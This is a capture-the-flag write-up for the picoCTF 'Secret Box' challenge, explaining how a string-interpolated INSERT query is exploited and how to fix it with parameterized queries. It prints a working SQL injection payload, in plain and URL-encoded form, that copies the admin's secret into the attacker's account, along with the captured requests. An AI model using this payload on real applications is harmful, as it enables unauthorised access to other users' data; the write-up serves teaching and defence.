# Secret Box

**Category:** Web Exploitation
**Difficulty:** Medium
**Author:** Janice He

---

## Challenge Description

Secret Box is a web application designed to store private secrets.
The goal of the challenge is to uncover the admin’s secret message.

The hint points directly to SQL Injection:

```text
How to use sql injection
```



---

## Source Code Structure

After downloading and extracting the source code, I inspected the project files.

```bash
tar -xzf source.tar.gz
cd source
tree -h
```

The most important files are:

```text
app/src/server.js
app/src/db.js
app/src/views/create_secret.ejs
db/initdb.sql
```



---

## Database Schema

The database initialization file is located at:

```text
db/initdb.sql
```

It creates three main tables:

```text
users
tokens
secrets
```

The `secrets` table stores each secret with an `owner_id`:

```sql
CREATE TABLE secrets (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    owner_id text NOT NULL REFERENCES users(id),
    content text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);
```

The same file also creates an admin user with a fixed UUID:

```text
e2a66f7d-2ce6-4861-b4aa-be8e069601cb
```

And inserts a fake flag as the admin’s secret:

```sql
INSERT INTO secrets(owner_id, content)
VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'picoCTF{fake_flag}');
```



This means that the admin secret is stored inside the `secrets` table and belongs to the admin UUID.

---

## Real Flag Replacement

The file `app/src/db.js` shows that the fake flag is replaced with the real flag when the application starts.

```js
await db('secrets')
    .where({ owner_id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
    .update({ content: process.env.FLAG });
```



So the real flag is stored as the content of the secret owned by the admin UUID.

---

## Vulnerable Route

In `server.js`, the `/secrets/create` route handles the creation of new secrets.

The vulnerable code is:

```js
const content = req.body.content;

const query = await db.raw(
    `INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
);
```



The problem is that the `content` parameter is inserted directly into a raw SQL query using string interpolation.

Since `content` is controlled by the user, this creates a SQL Injection vulnerability.

---

## Create Secret Form

The `create_secret.ejs` template confirms that the vulnerable parameter comes from the form field named `content`.

```html
<form method="POST" action="/secrets/create">
    <textarea id="content" name="content" class="input"></textarea>
</form>
```



So any value submitted in the textarea is sent to:

```text
POST /secrets/create
```

as:

```text
content=<user input>
```

---

## Creating a Normal User

I created a normal account:

```text
Username: test
Password: test
```



Then I logged in with the same credentials.



At this point, I was authenticated as a normal user.

---

## Capturing the Secret Creation Request

I created a normal secret with the value:

```text
test
```

Burp Suite captured the request:

```http
POST /secrets/create HTTP/1.1
Host: candy-mountain.picoctf.net:55472
Content-Type: application/x-www-form-urlencoded
Cookie: auth_token=...

content=test+
```



This request was sent to Burp Repeater so I could modify the `content` parameter.

---

## Repeater Request

In Burp Repeater, the original body was:

```text
content=test+
```



Only the `content` value needs to be changed.
The authentication cookie and headers should remain unchanged.

---

## SQL Injection Payload

The backend query is:

```sql
INSERT INTO secrets(owner_id, content)
VALUES ('USER_ID', 'CONTENT')
```

The goal is to inject an additional row into the `secrets` table.

I used the following payload:

```sql
x'), ((SELECT id FROM users WHERE username='test' LIMIT 1), (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb' LIMIT 1))-- 
```

URL-encoded version:

```text
content=x%27%29%2C%20%28%28SELECT%20id%20FROM%20users%20WHERE%20username%3D%27test%27%20LIMIT%201%29%2C%20%28SELECT%20content%20FROM%20secrets%20WHERE%20owner_id%3D%27e2a66f7d-2ce6-4861-b4aa-be8e069601cb%27%20LIMIT%201%29%29--%20
```


Conceptually, the injected query becomes:

```sql
INSERT INTO secrets(owner_id, content)
VALUES
('current_user_id', 'x'),
(
  (SELECT id FROM users WHERE username='test' LIMIT 1),
  (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb' LIMIT 1)
)
-- ')
```

This inserts a new secret owned by my user `test`, but its content is copied from the admin’s secret.

---

## Server Response

After sending the payload, the server responded with:

```http
HTTP/1.1 302 Found
Location: /
```



This means the request was accepted and the application redirected back to the home page.

---

## Retrieving the Flag

After following the redirect, the copied admin secret appeared in my own secrets list.



The flag is redacted in this public writeup:

```text
picoCTF{...PWNED...}
```

---

## OWASP Reference

OWASP explains that SQL Injection can occur when dynamic database queries are built using string concatenation with user-supplied input.



This directly matches the vulnerable code:

```js
`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
```

OWASP recommends prepared statements with parameterized queries as the primary defense.



Prepared statements ensure that user input is treated as data, not executable SQL code.

OWASP also recommends applying least privilege to reduce the impact of a successful SQL Injection attack.



---

## Secure Fix

The vulnerable code is:

```js
await db.raw(
    `INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
);
```

A secure version should use parameterized queries:

```js
await db.raw(
    'INSERT INTO secrets(owner_id, content) VALUES (?, ?)',
    [userId, content]
);
```

This prevents the `content` value from changing the SQL query structure.

---

## Attack Flow

```text
Download source code
    ↓
Review database schema
    ↓
Find admin UUID and admin secret
    ↓
Confirm real flag replaces fake flag at runtime
    ↓
Find vulnerable /secrets/create route
    ↓
Create normal user test
    ↓
Capture POST /secrets/create in Burp Suite
    ↓
Send request to Repeater
    ↓
Inject SQL payload into content
    ↓
Copy admin secret into my own account
    ↓
Follow redirect
    ↓
Read the flag
```

---

## Tools Used

```text
Burp Suite
Browser
Linux terminal
Source code review
OWASP SQL Injection Prevention Cheat Sheet
```

---

## Key Takeaways

* SQL Injection can happen when user input is concatenated directly into SQL queries.
* Even an `INSERT` statement can be abused to extract data using subqueries.
* The admin secret was not accessed directly; it was copied into the current user’s account.
* Parameterized queries are the correct fix for this vulnerability.
* Least privilege helps reduce the impact if SQL Injection occurs.

---

## Final Flag

```text
picoCTF{...PWNED...}
```
